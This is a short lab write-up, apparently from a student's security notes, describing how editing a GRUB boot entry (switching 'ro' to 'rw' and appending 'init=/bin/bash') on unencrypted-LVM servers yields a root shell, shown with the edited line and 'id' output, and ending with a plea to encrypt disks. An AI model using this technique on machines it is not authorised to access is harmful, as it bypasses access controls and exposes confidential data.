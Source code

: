 ```yaml
---
title: "Fastest Privesc on Grub"
author: "FreezingKas"
context: "Networking Security"
tags : ["System", "Privesc"]
---
```

# Fastest Privesc on Grub 
## Context

During Networking Security class, i had a lab with seven servers on a Proxmox created by our teacher without a root user.

After reporting all privilege escalations with `sudo` commands, my teacher decided to disable all the `sudo` commands until he could find a solution.

Unfortunately, it was not enough.

## Privesc

Grub is a boot loader that allows you to choose which operating system to boot.

It was installed on the servers, and I could edit startup scripts :

```bash
recordfail
load_video
gfxmode $linux_gfx_mode
insmod gzio
if [ x$grub_platform = xxen ]; then insmod xzio; insmod lzopio; fi
insmod part_gpt
insmod ext2
search --no-floppy --fs-uuid --set=root <UUID>
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
initrd /boot/initrd.img-5.15.0-56-generic
```

In our case, the LVM was not encrypted, so we could access files by spawning a root shell :

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> ro quiet splash $vt_handoff
```

Just change `ro` (read_only) to `rw` (read-write) and add init=/bin/bash at the end of the line, then reboot the server.

```bash
linux /boot/vmlinuz-5.15.0-56-generic root=UUID=<UUID> rw quiet splash $vt_handoff init=/bin/bash
```

We can now access the root user.

```bash
root@(none):/$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

Please encrypt your LVMs. Imagine it was not a lab, but an enterprise laptop with confidential documents.
When you encrypt LVM you can't read files when changing `ro` to `rw` in the grub file, passphrase is required.
